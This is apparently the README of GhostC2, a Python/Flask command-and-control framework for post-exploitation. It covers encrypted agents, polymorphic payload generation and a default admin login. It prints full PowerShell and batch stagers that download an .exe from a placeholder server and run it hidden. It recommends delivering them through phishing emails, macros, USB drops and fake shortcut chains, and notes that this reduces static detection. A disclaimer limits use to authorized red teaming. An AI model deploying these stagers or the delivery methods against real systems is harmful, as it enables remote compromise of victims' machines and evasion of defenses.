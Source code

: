 # 👻 GhostC2

GhostC2 is a modular, encrypted, post-exploitation command-and-control (C2) framework built with Python and Flask. It features real-time WebSocket communication, polymorphic payload generation, operator authentication, and optional `.exe` packaging. 

Check out the wiki for an Operator Quickstart Guide.

---

## 🚀 Features

- 🔐 AES-256 encrypted communication (symmetric)
- 🌐 Real-time bidirectional WebSocket tasking
- 🧠 Operator web console with live terminal view
- 🧬 Polymorphic payload generator with randomized variables
- 🖥️ Optional `.exe` compilation with PyInstaller
- 🛡️ Flask-Login based access control
- 🧾 SQLite-based task/result logging

---

## 📁 Project Structure

```
GhostC2/
├── builds/                 # Compiled payloads (.py, .exe)
├── output/                 # (Optional legacy output dir)
├── payloads/               # WebSocket and polling Python agents
│   └── ghost_socket_payload.py
├── server/
│   ├── app.py              # Main Flask + SocketIO server
│   └── templates/          # HTML templates for dashboard, console, login
├── tools/
│   └── generate_payload.py # Payload generator script
├── utils/
│   └── crypto.py           # AES encrypt/decrypt helpers
└── README.md
```

---

## ⚙️ Setup

### 1. Install dependencies
```bash
pip install flask flask-login flask-socketio eventlet pyinstaller
```

### 2. Run the server
```bash
cd server
python app.py
```

Visit [http://localhost:8080](http://localhost:8080)

**Default Login:**
```
Username: admin
Password: ghostpass123


```
### or simply run the setup.sh file.
---

## 👾 Payloads

### ✅ WebSocket Agent *currently being worked on use payload generator(!recommeneded) or ghost_payload.py(default payload for testing)*
```bash
python payloads/ghost_socket_payload.py
```

### 🧬 Generate Polymorphic Payload
```bash
python tools/generate_payload.py            # .py only
python tools/generate_payload.py --exe      # .py + .exe
```

Output saved to `builds/`

---

## 🖥️ Operator Console

- Live terminal view via `/console`
- Send commands to selected host
- Output streams back instantly via WebSocket

---

### 🎯 Stagers (Initial Access)

GhostC2 includes multiple **delivery stagers** in the `/stagers` directory, designed to fetch and execute the full agent from a remote server.

#### 🪖 PowerShell Stager (`payload_stager.ps1`)

Downloads and executes the payload from your GhostC2 host:

$payloadUrl = "http://your.server.ip/builds/ghost_payload.exe"
$localPath = "$env:TEMP\ghostsvc.exe"
Invoke-WebRequest -Uri $payloadUrl -OutFile $localPath -UseBasicParsing
Start-Process -FilePath $localPath -WindowStyle Hidden

yaml
Copy
Edit

Use in:
- Phishing emails
- Macros
- USB drops
- Post-exploit scripting

---

#### 🧱 Batch Stager (`payload_stager.bat`)

Simple `.bat` version for Windows:

@echo off
set PAYLOAD_URL=http://your.server.ip/builds/ghost_payload.exe
set PAYLOAD_PATH=%TEMP%\ghostsvc.exe

powershell -Command "Invoke-WebRequest -Uri '%PAYLOAD_URL%' -OutFile '%PAYLOAD_PATH%' -UseBasicParsing"
start "" "%PAYLOAD_PATH%"

yaml
Copy
Edit

Use in:
- `.zip` phishing drops
- Fake `.lnk` shortcut chains
- Legacy script execution

---

### 🔐 Reminder

These stagers **do not contain the payload directly**. They fetch the compiled GhostC2 `.exe` agent at runtime — minimizing static detection and enabling modular deployment.



---




## 🔐 Security Notes

- All beacon traffic is AES-256 encrypted
- WebSocket messages are encrypted client/server-side
- Operators must log in via Flask-Login (sessions stored securely)

---

## 🧪 Red Team Use Cases

| Scenario              | Usage                                    |
|----------------------|------------------------------------------|
| Post-exploitation    | Remote shell via encrypted WebSocket     |
| Payload generation   | Obfuscated `.py` or `.exe` files         |
| Operator dashboards  | Web UI for task/result review            |
| C2 simulations       | Train detection or analyze traffic       |

---

## ⚠️ Legal

GhostC2 is provided for **educational and authorized red team use only**. Do not deploy this tool in any environment without proper authorization.

---

## 🧠 Built by Edward Wolfgang

- GitHub: [@wolfwashere](https://github.com/wolfwashere)
- Project: GhostC2 v1.0

Feel free to fork, contribute, or adapt for your research lab, red team, or academic project.
